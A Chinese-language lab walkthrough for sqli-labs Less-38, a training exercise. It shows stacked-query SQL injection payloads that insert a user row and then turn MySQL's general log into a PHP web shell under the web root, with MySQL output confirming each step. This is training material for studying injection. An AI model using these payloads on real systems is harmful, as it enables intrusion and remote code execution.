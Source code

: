 # Less-38

```
http://daishen.ltd:1112/Less-38/?id=1';insert into users(username,password) values ('hello','world');
```

### 开启日志 Getshell

需要条件：

1. Web 的物理路径
2. MySQL 可以读写 Web 目录
3. Windows 成功率 高于 Linux

首先查看当前的日志的相关配置：

```bash
mysql> SHOW VARIABLES LIKE 'general%';
+------------------+---------------------------------+
| Variable_name    | Value                           |
+------------------+---------------------------------+
| general_log      | OFF                             |
| general_log_file | /var/lib/mysql/bb198f1a9cc6.log |
+------------------+---------------------------------+
```

Docker 里面的这个 Ubuntu 环境默认是没有开启的，这里尝试注入的时候手动开启：

```payload
?id=1';set global general_log = "ON";set global general_log_file='/var/www/html/shell.php';--+
```

然后 MySQL 再查看日志配置是否被修改了：

```bash
mysql> SHOW VARIABLES LIKE 'general%';
+------------------+-------------------------+
| Variable_name    | Value                   |
+------------------+-------------------------+
| general_log      | ON                      |
| general_log_file | /var/www/html/shell.php |
+------------------+-------------------------+
```

这个尝试 getshell：

```sql
?id=1';select <?php phpinfo();?>
```

日志里面就会记录`<?php phpinfo();?>`，浏览器访问查看：

查看一下当的日志文件：

```sql
$ cat /var/www/html/shell.php
200517  8:47:04       10 Connect    root@localhost on security
           10 Init DB    security
           10 Query    SELECT * FROM users WHERE id='1';select '<?php phpinfo();?>'-- ' LIMIT 0,1
```
